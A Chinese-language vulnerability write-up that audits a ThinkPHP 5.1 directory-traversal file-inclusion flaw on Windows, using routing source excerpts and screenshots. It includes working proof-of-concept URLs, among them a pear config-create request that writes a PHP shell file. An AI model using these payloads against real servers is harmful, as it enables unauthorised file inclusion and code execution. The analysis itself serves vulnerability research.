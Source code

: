 ```yaml
---
layout: post
date: 2024-4-24
title: "Thinkphp5.1文件包含-CNVD-2024-29981"
author: "XinYiSleep"
category: PHP
---
```

<h1 id="XvOCI">一.基础信息</h1>

```
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331415510.jpg)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
http://127.0.0.1/index.php/index/index/hello
http://127.0.0.1/index.php?s=index/index/hello
//简单一点来说其实就是对应的 模块/控制器/方法
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331708376.jpg)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331771501.jpg)  
进入run方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331806586.jpg)  
走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331839134.jpg)  
600行path方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331875986.jpg)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331988576.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332007814.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332031638.jpg)
然后就直接return了，在看看init方法做了什么。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332049247.jpg)
**parseUrl方法是把路由进行分割成数组**，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332109398.jpg)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332132336.jpg)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332177125.jpg)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332209008.jpg)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332239058.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332269204.jpg)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332296430.jpg)  
也就是看文件是否存在，再去loadFile方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332318589.jpg)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332347707.jpg)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332372496.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332400070.jpg)
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332418019.jpg)

